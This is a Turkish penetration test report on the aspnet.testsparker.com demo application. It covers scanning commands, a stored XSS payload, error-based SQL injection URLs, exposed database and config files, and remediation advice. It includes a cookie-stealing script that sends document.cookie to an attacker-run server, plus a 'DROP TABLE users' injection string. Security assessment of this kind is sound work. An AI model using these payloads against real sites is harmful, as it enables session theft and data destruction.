




# Testsparker Sızma Testi & Zaafiyet Analizi Raporu

## Özet

Bu sızma testi, http://aspnet.testsparker.com/ adresinde barındırılan web uygulamasının güvenlik durumunu değerlendirmek amacıyla gerçekleştirilmiştir. Test sonucunda, Stored Cross-Site Scripting (XSS), Error-Based SQL Injection, hassas bilgi ifşası ve veri tabanı dosyası ifşası gibi kritik güvenlik açıkları tespit edilmiştir. Bu rapor, bulguların detaylı analizini, olası etkilerini ve bu riskleri azaltmak için alınabilecek önlemleri sunmayı amaçlamaktadır. <!-- truncate -->

Test, OWASP rehberleri ve manuel test teknikleri dahil olmak üzere manuel araçlar ve metodolojiler kullanılarak gerçekleştirilmiştir. Rapor, teknik ve yönetimsel kitlelere hitap edecek şekilde yapılandırılmış olup, güvenlik açıkları ciddiyet derecelerine göre önceliklendirilmiştir.

**🛡️Bu sızma testi sırasında zaman ve kapsam sınırlamaları nedeniyle derinlemesine analiz yapamasam da, sistemdeki potansiyel giriş noktalarını başarıyla tespit ettim ve olası saldırı yüzeylerine dair genel bir farkındalık kazandım.**

---

## 1. Giriş ve Amaçlar

### 1.1 Amaç

Bu sızma testinin amacı, `http://aspnet.testsparker.com/` adresinde barındırılan web uygulamasında güvenlik açıklarını tespit etmek ve sistemin gizlilik, bütünlük ve erişilebilirlik açısından olası risklerini değerlendirmektir. Test, genel güvenlik durumunu iyileştirmek için yapılmıştır.

### 1.2 Kapsam

- **Hedef Sistem**: `http://aspnet.testsparker.com/` adresindeki web uygulaması (IP: 54.204.37.212)
- **Test Türleri**: Harici ağ taraması, web uygulaması testi ve güvenlik açığı değerlendirmesi
- **Hariç Tutulanlar**: Dahili ağ testi veya fiziksel güvenlik değerlendirmeleri yapılmamıştır

### 1.3 Metodoloji

Test süreci, OWASP Test Rehberine uygun olarak yürütülmüş, otomatik araçlar ve manuel teknikler kullanılmıştır:

- **Keşif**: WHOIS sorgusu, DNS numaralandırması ve servis keşfi
- **Tarama**: Nmap ile ağ taraması, Gobuster ve Ffuf ile dizin numaralandırması
- **Güvenlik Açığı Değerlendirmesi**: Web uygulaması güvenlik açıkları için manuel testler (Burpsuite, Python)
- **İstismar**: Tespit edilen güvenlik açıklarının doğrulanması 

---

## 2. Test Kapsamı ve Yöntemleri

### 2.1 Test Edilen Sistemler

- **Alan Adı**: `aspnet.testsparker.com`
- **IP Adresi**: 54.204.37.212
- **Web Uygulaması**: Microsoft HTTPAPI httpd 2.0 üzerinde barındırılan ASP.NET tabanlı uygulama (IIS 8.5)

### 2.2 Kullanılan Araçlar ve Teknikler

- **Nmap**: Port tarama ve hizmet numaralandırması
- **Gobuster**: Dizin ve dosya numaralandırması
- **Ffuf**: Dizin ve dosya numaralandırması
- **Strings**: Veritabanı dosyası içeriği analizi
- **Python HTTP Sunucusu**: Cookie çalma denemeleri için veri toplama
- **Manuel Testler**: XSS, SQL Injection, hassas dosya ifşası, Viewstate analizi ve hata mesajı analizi
- **Burp Suite**: Manuel web uygulaması testi için kullanıldı.

### 2.3 Test Türleri

- Açık portların ve hizmetlerin belirlenmesi için ağ taraması
- XSS, SQL Injection, yanlış yapılandırmalar ve hassas veri ifşası için web uygulaması testi
- Korunmasız kaynakları tespit etmek için dizin ve dosya numaralandırması

---

## 3. Bulgular ve Güvenlik Açıkları

Test sırasında tespit edilen güvenlik açıkları aşağıda listelenmiştir. Her bir bulgu, açıklama, etki ve kanıtlarla birlikte sunulmuştur.

### 3.1 SSL/TLS Eksikliği (Kritik)

- **Açıklama**: Web uygulaması, SSL/TLS şifrelemesi olmadan HTTP üzerinden sunulmakta, istemci ve sunucu arasında iletilen tüm veriler interception riskine açıktır.
- **Etkilenen Bileşen**: Tüm web uygulaması (`http://aspnet.testsparker.com/`)
- **Etki**: Saldırganlar, oturum açma kimlik bilgileri veya kişisel bilgiler gibi hassas verileri ele geçirmek için man-in-the-middle (MITM) saldırıları gerçekleştirebilir.
- **Örnek CVSS Puanı**: 7.5 (Yüksek) AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **Kanıt**: Uygulama, HTTPS yönlendirmesi olmadan `http://aspnet.testsparker.com/` üzerinden erişilebilir.

### 3.2 Stored Cross-Site Scripting (XSS) in Guestbook (Kritik)

- **Açıklama**: `/guestbook.aspx` sayfası, yetersiz giriş denetlemesi nedeniyle stored XSS zafiyetine sahiptir. `<svg><script>confirm(1)</script></svg>` payload’u, sayfa render edildiğinde JavaScript çalıştırır.
- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/guestbook.aspx`
- **Etki**: Saldırganlar, kullanıcı oturumlarını çalabilir, web sitesini tahrif edebilir veya kullanıcıları kötü amaçlı sitelere yönlendirebilir. Stored XSS, sayfayı ziyaret eden tüm kullanıcıları etkiler.
- **Örnek CVSS Puanı**: 8.8 (Yüksek) CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
- **Kanıt**: Guestbook’a `<svg><script>confirm(1)</script></svg>` payload’unun gönderilmesi, JavaScript uyarısını tetikler.

### 3.3 Error-Based SQL Injection in Products Page (Kritik)

- **Açıklama**: `http://aspnet.testsparker.com/Products.aspx?pId=2` adresinde, `pId` parametresi üzerinde yapılan SQL Injection denemeleri, hata tabanlı SQL Injection açığını ortaya çıkarmıştır. Hatalar, veritabanı yapısı ve veri türleri hakkında bilgi sızdırmaktadır.
Ayrıca aynı sayfada bulunan yorum satırı olarak gizlenmiş buton POST olarak istek göndermektedir. 
- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/Products.aspx`
- **Etki**: Saldırganlar, veritabanından hassas verileri (ör. kullanıcı bilgileri, ürün verileri) çıkarabilir, veritabanı yapısını manipüle edebilir veya yetkisiz erişim elde edebilir.
- **Örnek CVSS Puanı**: 9.1 (Kritik) \[CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N\]
- **Kanıt**: Aşağıdaki denemeler ve hata mesajları:
  - `http://aspnet.testsparker.com/Products.aspx?pId=asd`
    - **Hata**: `Invalid column name 'asd'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=user`
    - **Hata**: `Conversion failed when converting the nvarchar value 'dbo' to data type int.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=2' OR 1=1--`
    - **Hata**: `Incorrect syntax near '1'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=4'+convert(int,(SELECT @@version))--`
    - **Hata**: `Incorrect syntax near the keyword 'convert'. Incorrect syntax near ')'.`
  - Ek olarak sayfanın kaynak kodunda bulunan yorum satırı:
  Aktif edildiğinde buton ile POST isteği gönderiliyor.
  
  


### 3.4 Hassas Bilgi İfşası - Yapılandırma Dosyası (Yüksek)

- **Açıklama**: `http://aspnet.testsparker.com/statics/help-yes.html` dosyası, MAPI ayarları (`MAPI=1`, `CMCDLLNAME32=mapi32.dll`, vb.) gibi e-posta yapılandırma ayrıntılarını ifşa etmektedir.

- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/statics/help-yes.html`

- **Etki**: Saldırganlar, bu bilgileri e-posta ile ilgili hizmetleri hedeflemek veya yanlış yapılandırılmış e-posta istemcilerini istismar etmek için kullanabilir.

- **Kanıt**: Dosya herkese açık olarak erişilebilir ve şu içeriği içerir:

  ```
  ; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1 CMCDLLNAME32=mapi32.dll CMC=1 MAPIX=1 MAPIXVER=1.0.0.1 OLEMessaging=1 [ResponseResult] ResultCode=0
  ```

### 3.5 Korunmasız Dizin (`/statics/`) (Orta)

- **Açıklama**: `/statics/` dizini herkese açık olarak erişilebilir ve `help-yes.html` ile `data.mdb` gibi hassas dosyalar içerir.
- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/statics/`
- **Etki**: Saldırganlar, kısıtlanması gereken hassas yapılandırma dosyalarına veya diğer kaynaklara erişebilir.
- **Kanıt**: Dizin erişilebilir ve `help-yes.html` ile `data.mdb` dosyaları hassas veriler içerir.

### 3.6 Hassas Bilgi İfşası - Veritabanı Dosyası (Yüksek)

- **Açıklama**: `/statics/` dizininde bulunan `data.mdb` dosyası indirilebilir durumdadır ve `strings` komutuyla analiz edildiğinde hassas bilgiler (`mustafa` gibi potansiyel kullanıcı adı veya parola) içerir.

- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/statics/data.mdb`

- **Etki**: Saldırganlar, bu bilgileri kimlik doğrulama sistemlerini hedeflemek veya yetkisiz erişim elde etmek için kullanabilir.

- **Kanıt**: `strings data.mdb` komutuyla elde edilen çıktı:

  ```
  Standard Jet DB
  gr@?
  y[S)|*
  mustafa
  ```

### 3.7 IIS 8.5 Hata Mesajı ile Dizin İfşası (Yüksek)

- **Açıklama**: IIS 8.5 sunucusu, 403.14 (Forbidden) hata mesajlarında kök dizin yollarını ifşa etmektedir (ör. `C:\Websites\aspnet.testsparker\Panel\`).
- **Etkilenen Bileşen**: Web sunucusu (IIS 8.5)
- **Etki**: Saldırganlar, sunucu dosya yapısını öğrenerek hedefe yönelik saldırılar (dosya dahil etme, dizin gezintisi) planlayabilir.
- **Kanıt**: 403.14 hata mesajlarında `C:\Websites\aspnet.testsparker\Panel\` gibi yollar görülüyor.


### 3.8 Güvensiz Yönlendirmeler (Düşük)

- **Açıklama**: `/redirect.aspx` ve `/login.aspx` gibi sayfalar, kimlik doğrulaması olmadan yönlendirmeler yapar (`/default.aspx` veya `/administrator/Login.aspx`).

- **Etkilenen Bileşen**: `http://aspnet.testsparker.com/redirect.aspx`, `http://aspnet.testsparker.com/login.aspx`

- **Etki**: Saldırganlar, yönlendirmeleri kimlik avı sitelerine veya kullanıcı navigasyonunu manipüle etmek için istismar edebilir.


- **Kanıt**: Gobuster çıktısı:

  ```
  /redirect.aspx (Status: 302) [--> /default.aspx]
  /login.aspx (Status: 302) [--> /administrator/Login.aspx?r=/Dashboard/]
  ```

### 3.9 WHOIS ve DNS Üzerinden Bilgi Toplama (Bilgilendirme)

- **Açıklama**: WHOIS bilgileri gizlenmiş, ancak DNS kayıtları isim sunucularını (`NS-122-C.GANDI.NET`, `NS-223-B.GANDI.NET`, `NS-242-A.GANDI.NET`) ortaya koyuyor. rDNS kaydı, sunucunun AWS üzerinde barındırıldığını gösteriyor (`ec2-xxx-xxx-xxx.compute-1.amazonaws.com`).
- **Etkilenen Bileşen**: Alan adı ve sunucu meta verileri
- **Etki**: Saldırganlar, bu bilgileri keşif veya hedefe yönelik saldırılar için kullanabilir.
- **Kanıt**: WHOIS ve Nmap rDNS çıktısı.

---

## 4. Başarısız Olan Test Denemeleri

Aşağıda, test sırasında gerçekleştirilen ancak güvenlik açığı tespit edilemeyen denemeler listelenmiştir. Bu testler, uygulamanın belirli alanlarda güvenli olduğunu göstermektedir, ancak sürekli izleme ve daha ileri testler önerilir.

### 4.1 Viewstate Değeri Kontrolü

- **Açıklama**: ASP.NET uygulamasında kullanılan Viewstate değerleri analiz edilmiştir. Aşağıdaki Viewstate değerleri Base64 ile decode edilerek şifre veya hassas veri içerip içermediği kontrol edilmiştir:
  - `/wEPDwULLTE5OTE4NzY0OTlkZEGq7g8QSSx4n7ZaDhBOkGyN4b07NbSokTHWMKCzkWhu`
    - **Base64 Decoded**: `b'\xff\x01\x0f\x0f\x05\x0b-1991876499ddA\xaa\xee\x0f\x10I,x\x9f\xb6Z\x0e\x10N\x90l\x8d\xe1\xbd;5\xb4\xa8\x911\xd60\xa0\xb3\x91hn'`
  - `/wEPDwUJMjQ5MTUxNTk1ZGR7SoZRZsldR0XCCBJ8b6HK3VNxZbwNpnWqw2kHQS3GdA==`
    - **Base64 Decoded**: `b'\xff\x01\x0f\x0f\x05\t249151595dd{J\x86Qf\xc9]GE\xc2\x08\x12|o\xa1\xca\xddSqe\xbc\r\xa6u\xaa\xc3i\x07A-\xc6t'`
- **Sonuç**: Decode edilen verilerde şifre veya hassas bilgi tespit edilememiştir. Viewstate’in yapılandırması güvenli görünmektedir.

### 4.2 SQL Injection Denemesi (Login Sayfası)

- **Açıklama**: `/login.aspx` sayfasında SQL Injection açıklarını test etmek için çeşitli payload’lar (ör. `' OR '1'='1`, `1; DROP TABLE users --`) denenmiştir.
- **Sonuç**: Hiçbir payload başarılı olmamış ve SQL Injection açığı tespit edilememiştir. Uygulama, girişleri uygun şekilde filtreliyor veya parametreli sorgular kullanıyor gibi görünmektedir.

### 4.3 Document.cookie Çalma Denemesi (GuestbookList.aspx)

- **Açıklama**: `http://aspnet.testsparker.com/GuestbookList.aspx` üzerinden document.cookie çalmak için XSS denemesi yapılmıştır. (Örnek: `<script> new Image().src = "http://4.xxx.xxx.171:8000/?" + document.cookie;</script>`) Azure üzerinde bir sunucu (`http://4.xxx.xxx.171:8000`) açılmış, portlar uygun şekilde konfigüre edilmiş ve Python HTTP sunucusu ile dinlemeye geçilmiştir. Ancak, backend tarafından (frontend tarafından olmadığı anlaşıldı.) girişlerin yalnızca string olması gerektiği ve sembollerin kullanılamayacağına dair hata mesajı alınmıştır: `Please, post only strings (you cannot use only digits) and don't use: #,$,-,',"^,+,{,}.`
- **Sonuç**: Giriş doğrulama kısıtlamaları nedeniyle document.cookie çalma denemesi başarısız olmuştur. Bu, uygulamanın belirli XSS saldırılarına karşı koruma sağladığını gösterir.
- **Öneri**: Mevcut giriş doğrulama mekanizmalarını koruyun ve tüm kullanıcı girişlerini denetleyin. Ayrıca, Content Security Policy (CSP) ve HttpOnly cookie bayraklarını kullanarak XSS saldırılarına karşı ek koruma sağlayın.

---

## 5. Kanıtlar ve Ekran Görüntüleri

### 5.1 Stored XSS in Guestbook

- **Payload**: `<svg><script>confirm(1)</script></svg>`
- **Sonuç**: `http://aspnet.testsparker.com/guestbook.aspx` ziyaret edildiğinde JavaScript uyarısı çalışır.
- **Ekran Görüntüsü**: 



### 5.2 Error-Based SQL Injection

- **URL ve Payload’lar**:
  - `http://aspnet.testsparker.com/Products.aspx?pId=asd` → `Invalid column name 'asd'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=user` → `Conversion failed when converting the nvarchar value 'dbo' to data type int.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=2' OR 1=1--` → `Incorrect syntax near '1'.`
  - `http://aspnet.testsparker.com/Products.aspx?pId=4'+convert(int,(SELECT @@version))--` → `Incorrect syntax near the keyword 'convert'. Incorrect syntax near ')'.`
  - **Ekran Görüntüsü**: 



### 5.3 Hassas Dosya İfşası - Yapılandırma Dosyası

- **URL**: `http://aspnet.testsparker.com/statics/help-yes.html`

- **İçerik**:

  ```
  ; for 16-bit app support [fonts] [extensions] [mci extensions] [files] [Mail] MAPI=1 CMCDLLNAME32=mapi32.dll CMC=1 MAPIX=1 MAPIXVER=1.0.0.1 OLEMessaging=1 [ResponseResult] ResultCode=0
  ```

### 5.4 Hassas Dosya İfşası - Veritabanı Dosyası

- **URL**: `http://aspnet.testsparker.com/statics/data.mdb`

- **İçerik**: `strings data.mdb` komutuyla elde edilen çıktı:

  ```
  Standard Jet DB
  gr@?
  y[S)|*
  mustafa
  ```

### 5.5 IIS 8.5 Dizin İfşası

- **Hata Mesajı**: 403.14 hata mesajlarında `C:\Websites\aspnet.testsparker\Panel\` gibi yollar görülüyor.
- **Ekran Görüntüsü**: 



### 5.6 Nmap Tarama Sonuçları

- **Komut**: `nmap -sV -T4 aspnet.testsparker.com`

- **Çıktı**:

  ```
  PORT    STATE SERVICE VERSION
  80/tcp  open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  443/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
  ```

### 5.7 Gobuster Sonuçları

- **Komut**: `gobuster dir -u http://aspnet.testsparker.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,bak,config,txt`


### 5.8 Ffuf Sonuçları

- **Komut**: `ffuf -u http://aspnet.testsparker.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -e .aspx -fc 403,404 -t 50 `
- **Çıktı**: 
  ```
  help.aspx               [Status: 200, Size: 3031, Words: 725, Lines: 72, Duration: 147ms]
  shop.aspx               [Status: 200, Size: 5806, Words: 2040, Lines: 109, Duration: 157ms]
  about.aspx              [Status: 200, Size: 7599, Words: 1751, Lines: 177, Duration: 158ms]
  Login.aspx              [Status: 302, Size: 156, Words: 6, Lines: 4, Duration: 158ms]
  products.aspx           [Status: 200, Size: 3726, Words: 856, Lines: 84, Duration: 148ms]
  ```
---

## 6. Etkiler ve Öneriler

### 6.1 SSL/TLS Eksikliği

- **Etki**: Veriye müdahale, kullanıcı güveninin kaybı ve olası uyumsuzluklar.
- **Öneriler**:
  - Geçerli bir sertifika (ücretsiz olarak Let’s Encrypt) kullanarak SSL/TLS uygulanabilir.
  - HSTS ile HTTPS yönlendirmesini zorunlu kılın.
  - HTTP erişimini devre dışı bırakmak için sunucu yapılandırmasını güncelleyin.

### 6.2 Stored XSS in Guestbook

- **Etki**: Kullanıcı hesaplarının ele geçirilmesi, veri hırsızlığı ve web sitesi tahribatı.
- **Öneriler**:
  - Tüm kullanıcı girişleri için giriş doğrulama uygulayın.
  - Komut dosyası yürütmesini kısıtlamak için Content Security Policy (CSP) kullanın.

### 6.3 Error-Based SQL Injection

- **Etki**: Veritabanından hassas veri sızıntısı, veri manipülasyonu veya yetkisiz erişim.
- **Öneriler**:
  - Parametreli sorgular veya hazırlanmış ifadeler (prepared statements) kullanarak SQL Injection’ı önleyin.
  - Kullanıcı girişlerini uygun şekilde filtreleyin ve doğrulayın.
  - Hata mesajlarını özelleştirerek veritabanı yapısı hakkında bilgi sızmasını engelleyin.
  - Web Application Firewall (WAF) kullanarak SQL Injection saldırılarını tespit edin ve engelleyin.

### 6.4 Hassas Bilgi İfşası - Yapılandırma Dosyası

- **Etki**: E-posta yapılandırmalarının ifşası, hedefe yönelik saldırılara yol açabilir.
- **Öneriler**:
  - `/statics/` dizinine erişimi `webconfig` veya eşdeğeri ile kısıtlayın.
  - Hassas dosyaları herkese açık dizinlerden kaldırın veya taşıyın.
  - Tüm dizinleri istenmeyen dosya ifşası için denetleyin.

### 6.5 Hassas Bilgi İfşası - Veritabanı Dosyası

- **Etki**: Potansiyel kullanıcı adları veya parolaların ifşası, kimlik doğrulama sistemlerine yönelik saldırıları kolaylaştırabilir.
- **Öneriler**:
  - `data.mdb` dosyasını hemen `/statics/` dizininden kaldırın veya erişimini kısıtlayın.
  - Veritabanı dosyalarını yalnızca güvenli, erişim kontrollü ortamlarda saklayın.
  - İfşa edilen verilerin (örn. `mustafa`) hala kullanılıp kullanılmadığını kontrol edin ve gerekirse kimlik bilgilerini güncelleyin.

### 6.6 IIS 8.5 Hata Mesajı ile Dizin İfşası

- **Etki**: Sunucu dosya yapısının ifşası, hedefe yönelik saldırıları kolaylaştırabilir.
- **Öneriler**:
  - IIS hata mesajlarını özelleştirerek dosya yollarının ifşa edilmesini önleyin (`Custom Errors` yapılandırması).
  - Sunucu yapılandırmasını gözden geçirerek dizin indekslemeyi devre dışı bırakın.

### 6.7 Oturum Açma ve Diğer Girdi Noktaları, Yönlendirmeler

- **Etki**: Yönetimsel arayüzlere yetkisiz erişim riski artar.
- **Öneriler**:
  - Güçlü parola politikaları ve çok faktörlü kimlik doğrulama (MFA) uygulayın.
  - Kaba kuvvet saldırılarına karşı oturum açma denemelerini izleyin ve IP, süre, tekrar etme durumlarına göre sınırlayın.
  - Yetkisiz yönlendirmeleri önlemek için uygun oturum yönetimi uygulayın.

### 6.8 Korunmasız Dizin (`/statics/`)

- **Etki**: Yetkisiz kullanıcılara hassas kaynakların ifşası.
- **Öneriler**:
  - Dizin indeksleme kontrolleri ile `/statics/` erişimini reddedecek şekilde sunucuyu yapılandırın.
  - Yetkisiz dizin erişimini kısıtlamak için uygun oturum yönetimi uygulayın. 

### Not
  - **TestCookie**: Sayfa üzerinde belli bir süre bulunduktan sonra TestCookie:Hello şeklinde bir cookie daha ekleniyor.


---

## 7. Genel Değerlendirme ve Sonuç

### 7.1 Genel Güvenlik Durumu

`http://aspnet.testsparker.com/` adresindeki web uygulaması, SSL/TLS eksikliği, stored XSS, Error-Based SQL Injection, hassas veritabanı dosyası ifşası ve IIS hata mesajları yoluyla dizin ifşası gibi kritik güvenlik açıkları sergilemekte olup, kullanıcı verileri ve sistem bütünlüğü için ciddi riskler taşımaktadır. Orta önemdeki sorunlar (açıkta kalan dizinler ve hassas dosya ifşası), güvenlik duruşunu daha da zayıflatmaktadır. Viewstate, login sayfasında SQL Injection ve GuestbookList.aspx üzerinde cookie çalma denemelerinde güvenlik açığı bulunmaması olumlu bir durumdur, ancak diğer kritik sorunların giderilmesi için önlem alınması gerekmektedir.

### 7.2 Sonuç

Sızma testi, dikkat edilmediği takdirde ciddi sonuçlara yol açabilecek birden fazla istismar edilebilir güvenlik açığını ortaya koymuştur. Önerilen düzeltmelerin uygulanmasıyla, bu proje web uygulamasının güvenliğini önemli ölçüde iyileştirebilir ve hassas verileri koruyabilir.

*Bu sızma testi sırasında zaman ve kapsam sınırlamaları nedeniyle derinlemesine analiz yapamasam da, sistemdeki potansiyel giriş noktalarını başarıyla tespit ettim ve olası saldırı yüzeylerine dair genel bir farkındalık kazandım.*

---

## 8. Ek Bilgiler

### 8.1 Kullanılan Komutlar ve Payload’lar

- **Nmap**: `nmap -sV -T4 aspnet.testsparker.com`
- **Gobuster**: `gobuster dir -u http://aspnet.testsparker.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x aspx,bak,config,txt`
- **Ffuf**: `ffuf -u http://aspnet.testsparker.com/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories.txt -e .aspx -fc 403,404 -t 50`
- **Strings**: `strings data.mdb`
- **XSS Payload**: `<svg><script>confirm(1)</script></svg>`
- **SQL Injection Payload’lar**:
  - `http://aspnet.testsparker.com/Products.aspx?pId=asd`
  - `http://aspnet.testsparker.com/Products.aspx?pId=user`
  - `http://aspnet.testsparker.com/Products.aspx?pId=2' OR 1=1--`
  - `http://aspnet.testsparker.com/Products.aspx?pId=4'+convert(int,(SELECT @@version))--`
  - Login sayfasında: `' OR '1'='1`, `1; DROP TABLE users --` (başarısız)
- **Cookie Çalma Denemesi**: Azure sunucusu (`http://4.xxx.xxx.171:8000`) üzerinde Python HTTP sunucusu ile document.cookie çalma (başarısız)

### 8.3 İletişim Bilgileri

Daha fazla ayrıntı ve iletişim için: [Berk Ali Erçelik](https://github.com/berkercelik)